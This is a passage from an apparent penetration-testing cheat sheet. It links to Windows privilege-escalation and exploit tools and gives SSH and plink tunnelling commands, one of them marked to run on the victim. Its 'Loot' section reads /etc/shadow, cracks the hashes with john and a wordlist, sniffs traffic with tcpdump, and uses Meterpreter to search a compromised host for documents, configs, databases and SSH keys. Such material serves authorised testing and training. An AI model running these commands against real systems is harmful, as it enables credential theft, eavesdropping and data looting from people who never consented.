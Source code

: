 - [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py)
- [windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)
- [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)

### Windows precompiled exploits
- [WindowsExploits](https://github.com/abatchy17/WindowsExploits)
### Windows Port Forwarding

```sh
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER

# Run in victim (5985 WinRM):
plink -l LOCALUSER -pw LOCALPASSWORD LOCALIP -R 5985:127.0.0.1:5985 -P 221

```
# Loot :
## Linux

### Passwords and hashes
```bash
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

```

### Dualhomed
```bash
ifconfig
ifconfig -a
arp -a

```

### Tcpdump
```bash
tcpdump -i any -s0 -w capture.pcap
tcpdump -i eth0 -w capture -n -U -s 0 src not $IP and dst not $IP
tcpdump -vv -i eth0 src not $IP and dst not $IP

```

### Interesting files
```bash
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql
use auxiliary/sniffer/psnuffle

.ssh/
```